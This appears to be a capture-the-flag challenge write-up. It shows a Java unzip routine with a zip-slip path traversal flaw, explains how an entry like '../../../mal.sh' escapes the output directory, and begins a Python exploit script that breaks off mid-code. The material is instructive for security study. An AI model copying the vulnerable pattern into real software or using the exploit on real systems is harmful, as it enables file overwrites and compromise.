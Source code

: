 ```java
public static void unzip(File zipFile, File outputDir) throws IOException {
    String outputPath = RandomPrefix();

    try (ZipInputStream zis = new ZipInputStream(new FileInputStream(zipFile))) {
        ZipEntry entry;

        while ((entry = zis.getNextEntry()) != null) {
            File outFile = new File(outputDir, outputPath + "/" + entry.getName());
            
            if (entry.isDirectory()) {
                outFile.mkdirs();
            } else {
                outFile.getParentFile().mkdirs();
                try (FileOutputStream fos = new FileOutputStream(outFile)) {
                    byte[] buffer = new byte[1024];
                    int len;
                    while ((len = zis.read(buffer)) > 0) {
                        fos.write(buffer, 0, len);
                    }
                }
            }
        }
    }
}
```
- The code simply gets each entry and writes it out to its proper place.  The only problem lies with how it creates the **File** object.
- Using `entry.getName()` is not a proper method of unzipping files, since if then entry's name has traversal characters: `..` then it intends to follow those characters. Not only does this apply for traversal characters but also for symbolic links. 
This will create the file and in turn such a file `../../../mal.sh`, can be written outside the package name directory and possible overwrite sensitive information such as login information or if possible at enterprise level, database information.

This ability is what is commonly referred to as a zip-slip. Its impact depends on the level of permissions, and hence to maintain the integrity of the challenge, I imposed restrictions on some files allowing the application to work within a limited close environment.

To exploit this vulnerability, we can use the following code:
```python
#!/usr/bin/env python3
import os
import zipfile

# Create a directory for our temporary files
os.makedirs("pkg_content", exist_ok=True)

# Create legitimate content
with open("pkg_content/example.txt", "w") as f:
    f.write("This is a legitimate example file")

with open("pkg_content/README.md", "w") as f:
    f.write("# PKG Project\nThis is a legitimate README file.")

with open("pkg_content/MANIFEST.xml", "w") as f:
    f.write('''<?xml version="1.0" encoding="UTF-8"?>
<manifest>
  <files>
    <file path="RESOURCES/example.txt" type="resource" />
  </files>
  <metadata>
    <version>1.0.0</version>
    <author>Example</author>
  </metadata>
```